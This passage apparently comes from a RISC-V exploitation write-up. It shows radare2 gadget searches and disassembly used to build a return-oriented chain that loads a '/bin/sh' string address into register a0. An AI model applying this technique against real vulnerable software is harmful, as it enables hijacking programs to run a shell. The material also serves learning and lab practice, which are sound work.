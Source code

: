 We now know that the `/bin/sh` string is located at the address `0x4ddc0`.

#### Finding a0 gadget

We can use the following command to retrieve all the `a0` gadget available in the executable:

```text
[0x000101f8]> "/ad/ *; *; *; ret"
...
0x0004b3bc   # 8: addi a4, a4, 8; mv a0, a4; sd a5, 0(a3); ret
0x0004b640   # 8: li a0, 0; ret; ld a0, 0(a1); ret
0x0004ba0e   # 8: ld s10, 32(sp); ld s11, 24(sp); addi sp, sp, 128; ret
0x0004bc80   # 8: ld s4, 80(sp); ld s5, 72(sp); addi sp, sp, 128; ret
0x0004c494   # 10: j 0x4c3d4; lw a5, 0(a0); bnez a5, 0x4c496; ret
0x0004c918   # 8: addi a4, a4, 8; mv a0, a4; sd a5, 0(a3); ret
0x0004cd28   # 8: ld s1, 8(sp); ld s2, 0(sp); addi sp, sp, 32; ret
0x0004d538   # 8: ld s1, 8(sp); ld s2, 0(sp); addi sp, sp, 32; ret
[0x000101f8]> "/ad/ *; *; *; ret" | grep 'ld a0'
...
0x00066ee8   # 2: ld a0, 280(sp)
0x00066eea   # 2: ld a0, 88(sp)
0x00066eec   # 2: ld a0, 280(sp)
0x00066f0d   # 2: ld a0, 200(a0)
0x00066f16   # 2: ld a0, 344(sp)
0x000678b0   # 2: ld a0, 96(a1)
0x00068216   # 2: ld a0, 0(s0)
0x00068960   # 2: ld a0, 8(a2)
0x00068afd   # 2: ld a0, 8(s0)
[0x000101f8]> "/ad/ *; *; *; ret" | grep 'ld a0' | cut -d',' -f2 | sort -nr | uniq | grep sp
...
 112(sp)
 104(sp)
 96(sp)
 88(sp)
 80(sp)
 72(sp)
 64(sp)
 56(sp)
 48(sp)
 40(sp)
 32(sp)
 24(sp)
 16(sp)
 8(sp)
 0(sp)
[0x000101f8]> "/ad/ ld a0, 24(sp)*;*;*;ret"
0x0004a9d2   # 8: ld a0, 24(sp); ld ra, 40(sp); addi sp, sp, 48; ret
[0x000101f8]> pd 1 @ 0x0004a9d2
            0x0004a9d2      8280           ret
[0x000101f8]> pd 4 @ 0x0004a9cc
            0x0004a9cc      6265           ld a0, 24(sp)
            0x0004a9ce      a270           ld ra, 40(sp)
            0x0004a9d0      4561           addi sp, sp, 48
            0x0004a9d2      8280           ret
```
